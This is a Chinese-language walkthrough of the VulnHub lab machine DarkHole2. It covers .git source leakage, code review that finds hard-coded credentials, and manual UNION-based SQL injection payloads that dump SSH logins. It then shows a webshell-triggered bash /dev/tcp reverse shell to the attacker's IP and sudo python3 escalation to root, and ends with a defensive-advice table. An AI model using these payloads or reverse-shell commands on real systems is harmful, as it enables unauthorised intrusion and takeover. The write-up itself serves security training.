

## 概述

本页面记录 VulnHub 靶机 **DarkHole2** 的完整渗透测试复现流程。攻击链涵盖信息收集、Git 源码泄露利用、代码审计获取凭证、SQL 注入枚举数据库、SSH 登录立足、端口发现 Webshell、反弹 Shell 交互升级、sudo 误配置提权至 Root 以及 Flag 获取的全过程。适合 OSCP 风格实战练习与渗透测试基础巩固。

## 环境准备

- **攻击机**：Kali Linux (192.168.253.137)
- **目标机**：DarkHole2 (192.168.253.136)
- **网络模式**：NAT / 仅主机模式，双机互通

## 攻击链概览



## 详细复现步骤

### 信息收集与端口枚举

```bash
# 主机发现
sudo arp-scan -l

# 端口与服务探测
nmap -A -Pn 192.168.253.136
```

**关键开放端口**：

| 端口 | 服务 | 版本/备注 |
|------|------|-----------|
| 22   | SSH  | OpenSSH   |
| 80   | HTTP | Apache    |
| 9999 | HTTP | 后续发现的 Webshell 管理端口 |

> 该阶段可参考 [[vulnhub-platform-resource-index]] 中的通用信息收集方法论。

### Git 源码泄露利用与代码审计

#### 发现 `.git` 目录

访问 `http://192.168.253.136/.git/` 目录列表可直接下载。

```bash
# 递归下载整个 Git 仓库
wget -r http://192.168.253.136/.git/
```

#### 查看提交历史与版本回溯

```bash
cd 192.168.253.136/.git
git log                    # 查看提交历史
git checkout <HASH值>      # 回溯到特定版本查看源码
```

#### 审计 `login.php` 获取凭证

在历史版本中发现硬编码凭证：

```
邮箱: lush@admin.com
密码: 321
```

> **技术要点**：Git 泄露属于常见敏感信息泄露类型，审计重点关注配置文件、登录逻辑、数据库连接文件。类似技术在 [[vulnhub-hard-socnet2-writeup]] 中亦有涉及。

### 后台登录与 SQL 注入利用

#### 后台登录

使用上述凭证登录后台，观察 URL 带有 `id` 参数，疑似注入点。

#### 手工注入验证

```sql
-- 判断注入类型
id=1' and 1=1 --+     # 正常显示
id=1' and 1=2 --+     # 页面变白/无数据
-- 推断为字符型注入
```

#### 联合查询确定列数

```sql
id=1' order by 3 --+      # 正常
id=1' order by 4 --+      # 报错 → 列数为 3
id=1' union select 1,2,3 --+   # 回显位在 2、3 位置
```

#### 枚举数据库结构

```sql
-- 当前数据库
id=2' union select 1,database(),3 --+

-- 表名 (darkhole_2 库)
id=2' union select 1,table_name,3 from information_schema.tables where table_schema='darkhole_2' --+

-- 列名 (ssh 表)
id=2' union select 1,GROUP_CONCAT(column_name),3 from information_schema.columns where table_name='ssh' --+

-- 数据 (id, user, pass)
id=2' union select 1,id,user,pass from ssh --+
```

**获取 SSH 凭证**：

```
用户名: jehad
密码:   fool
```

> **工具化参考**：批量化 SQL 注入检测可结合 [[sqlmap-api-automation]] 实现自动化扫描。

### SSH 登录与本地信息收集

```bash
ssh jehad@192.168.253.136
# 密码: fool
```

登录后执行：

```bash
uname -a                    # 内核版本
cat /etc/passwd             # 用户列表
cat ~/.bash_history         # 历史命令
ss -pantu | grep 9999       # 发现 9999 端口监听
```

**关键发现**：

- 普通用户：`lama`、`jehad`、`losy`
- 历史命令暗示 9999 端口有特殊用途
- 9999 端口由 `python3` 进程监听，目录下存在 `index.php` Webshell

### Webshell 利用与反弹 Shell

#### 分析 Webshell

`index.php` 为一句话木马，通过 `cmd` 参数执行系统命令。

#### 构造反弹 Shell Payload

```bash
# 原始命令
bash -c 'bash -i >& /dev/tcp/192.168.253.137/4242 0>&1'

# URL 编码后
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.253.137%2F4242%200%3E%261%27
```

#### 触发反弹

```bash
# 攻击机监听
nc -lvnp 4242

# 目标机执行 (通过 Webshell)
curl "http://127.0.0.1:9999/?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.253.137%2F4242%200%3E%261%27"
```

成功反弹获得 `losy` 用户 Shell。

> **关联技术**：反弹 Shell 与 C2 通信原理相通，可参考 [[cobalt-strike-external-c2-smb-beacon]]、[[covenant-c2-framework-analysis]] 中的通信模型对比。

### 交互式 Shell 升级与提权

#### TTY 升级

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

#### Sudo 权限检查

```bash
sudo -l
# 输出显示 losy 可免密执行 python3
```

#### Sudo 提权至 Root

```bash
sudo python3 -c 'import pty; pty.spawn("/bin/bash")'
# 此时已为 root 权限
whoami
# root
```

> **提权原理**：`sudo` 允许以 root 运行 `python3`，利用 Python 交互特性逃逸至 Root Shell。类似 SUID/GTFOBins 提权思路可见于 [[vulnhub-infosecprep-oscp-writeup]]（SUID bash -p）、[[vulnhub-pwned-writeup]]（Docker 组提权）、[[vulnhub-doubletrouble-writeup]]（Dirty COW 内核提权）。

### Flag 获取

```bash
# Root Flag
cat /root/root.txt

# User Flags
cat /home/lama/user.txt
cat /home/jehad/user.txt
cat /home/losy/user.txt
```

## 关键知识点总结

| 阶段 | 核心技术 | 关键工具/命令 | 防御建议 |
|------|----------|---------------|----------|
| 信息收集 | 端口扫描、服务识别 | `nmap -A`, `arp-scan` | 关闭非必要端口、服务版本隐藏 |
| 敏感信息泄露 | Git 目录遍历下载 | `wget -r`, `git log/checkout` | 禁止 `.git` 目录 Web 访问、生产环境不部署 `.git` |
| 代码审计 | 硬编码凭证、逻辑缺陷 | 手工阅读、历史版本对比 | 代码审计流程化、密钥管理规范化 |
| SQL 注入 | 联合查询、错误/盲注 | 手工构造、sqlmap | 参数化查询、WAF、最小权限数据库账号 |
| 横向移动 | SSH 凭证复用 | `ssh`, `ssh-copy-id` | 禁用密码登录、密钥分级管理、审计登录日志 |
| 后门发现 | 非常用端口、Webshell | `ss/netstat`, `find`, 文件完整性监控 | 定期扫描 Webshell、端口基线化管理 |
| 反弹 Shell | Bash/TCP 反连、TTY 升级 | `nc`, `socat`, `python pty` | 出站流量管控、EDR 行为分析 |
| 提权 | sudo 误配置、GTFOBins | `sudo -l`, `GTFOBins` 查表 | `sudo` 最小权限、定期审计 sudoers |

## 交叉引用与延伸阅读

- **VulnHub 靶场资源总览**：[[vulnhub-platform-resource-index]]
- **同类靶机实战**：
  - [[vulnhub-doubletrouble-writeup]] — Shellshock + Dirty COW 提权
  - [[vulnhub-hard-socnet2-writeup]] — 文件上传 + SQLi + 缓冲区溢出 + 内核提权
  - [[vulnhub-chronos-writeup]] — Node.js 原型链污染 + 命令注入 + sudo node 提权
  - [[vulnhub-pwned-writeup]] — FTP/SSH 密钥 + sudo + Docker 提权
  - [[vulnhub-infosecprep-oscp-writeup]] — WordPress 目录遍历 + SSH 私钥 + SUID bash 提权
  - [[vulnhub-sar-writeup]] — sar2HTML RCE + 计划任务/CVE-2021-3493 双提权路径
  - [[vulnhub-bbs-cute-102-writeup]] — CuteNews 文件上传绕过 Getshell
  - [[vulnhub-boredhackerblog-social-network-writeup]] — 代码注入 + Docker 逃逸 + 横向移动
  - [[vulnhub-dawn2-writeup]] — Windows 缓冲区溢出 + Immunity Debugger + msfvenom
- **SQL 注入自动化**：[[sqlmap-api-automation]]
- **Webshell 免杀与混淆**：[[php-webshell-obfuscation-av-evasion]]
- **C2 通信与流量隐匿**：[[c2-redirectors-malleable-c2-profiles]]、[[smb-named-pipe-c2-communication]]
- **缓冲区溢出与二进制利用基础**：[[peda-buffer-overflow-analysis-guide]]、[[rop-linux-x86-beginner-tutorial]]、[[heap-overflow-principles-unlink-exploitation]]

## 复盘与心得

> 「这个靶机花了我差不多一天的时间，中间各种奇怪的报错，还可以尝试 SSH 爆破和端口转发的方式去做测试。」

- **Git 泄露**是入口关键，实战中常被忽视，需纳入常规目录扫描字典
- **SQL 注入**手工利用加深对联合查询、信息模式库的理解，自动化工具不可全赖
- **非常用端口 (9999)** 往往藏有惊喜，`ss/netstat` + 进程关联 + 文件检查是标准动作
- **Sudo 提权**属于配置管理缺陷，`sudo -l` 应成肌肉记忆
- **多条提权路径**并存时，优先尝试最简单、最稳定的路径（本例 sudo python3 > 内核漏洞）

---

**标签**：`VulnHub` `渗透测试` `Git泄露` `代码审计` `SQL注入` `SSH` `Webshell` `反弹Shell` `提权` `OSCP备考` `实战复现`

## 来源

- [0x00实验室-202108-202304_041](../sources/0x00实验室-202108-202304_041.md)
